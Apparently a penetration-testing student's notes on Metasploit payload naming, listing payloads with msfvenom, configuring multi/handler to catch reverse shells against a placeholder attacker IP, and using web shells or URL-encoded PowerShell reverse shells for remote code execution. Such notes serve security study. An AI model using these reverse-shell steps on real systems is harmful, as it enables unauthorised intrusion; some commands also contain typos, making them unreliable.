 
##### Payload naming convetions.
```
<OS>/<arch>/<payload>
// examples
linux/x86/shell_reverse_tcp
```

The exception to this convention is Windows 32bit targets. For these, the arch is not specified.
```
windows/shell_reverse_tcp
```

Stageless payloads are denoted with underscores (`_`).
eg
```
shell_reverse_tcp
```

Staged payloads are denoted with a '/'

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`  

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

To list all available payloads;
```
// meterpreter
msfvenom --list payloads
```

### Metasploit multi/handler
- It is used to catch reverse shells.

```
// on msfconsole 
use mutli/handler

//run options to see available options.
show options

set PAYLOAD YOUR_PAYLOAD
set LHOST YOUR_ATTACKER_IP
set LPORT ATTACKER_LISTENING_PORT

// we can now run the module as a job in the background
exploit -j
```

- To view present sessions, run the `sessions command.`
- To interact with a session, run the `session <SESSION_NUMBER>`

### Web Shells
- "Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server.
- It is fairly easy for linux payloads
- When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server.
- To get an rce on windows, we can usually url encode the powershell reverse shell code and pass it to the cmd parameter.
